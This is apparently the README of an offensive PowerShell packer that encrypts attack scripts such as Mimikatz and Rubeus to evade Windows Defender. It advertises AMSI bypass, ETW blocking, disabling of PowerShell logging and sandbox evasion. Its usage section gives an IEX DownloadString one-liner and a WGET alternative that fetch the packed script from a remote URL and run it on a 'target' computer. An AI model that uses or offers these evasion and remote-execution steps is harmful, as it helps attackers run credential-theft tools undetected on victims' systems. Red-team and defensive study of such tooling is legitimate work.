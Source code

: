 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
--- or ---
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
--- or ---
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script
--- or ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
